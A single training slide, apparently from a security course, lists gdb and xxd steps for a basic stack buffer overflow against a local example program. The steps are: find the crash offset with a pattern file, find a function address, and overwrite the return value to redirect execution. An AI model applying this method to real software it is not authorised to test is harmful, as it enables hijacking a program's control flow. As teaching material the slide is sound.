

# Exploitation Checklist
Identify the Buffer Overflow
Generate an appropriately sized pattern file likely to cause a SegFault
pattern create 128 example_pattern.txt
Run the program in gdb and observe the SegFault, noting the value on the stack
run < example_pattern.txt
pattern offset VALUE_ON_STACK
Identify the address of the function you want to run
p (function_name)
Modify the pattern file to replace the text that was loaded onto the stack during the SegFault with the function address.
xxd example_pattern.txt > example_pattern.hex
nano example_pattern.hex
xxd -r example_pattern.hex > example_pattern.txt
Run the program with the new pattern file.
../example < example_pattern.txt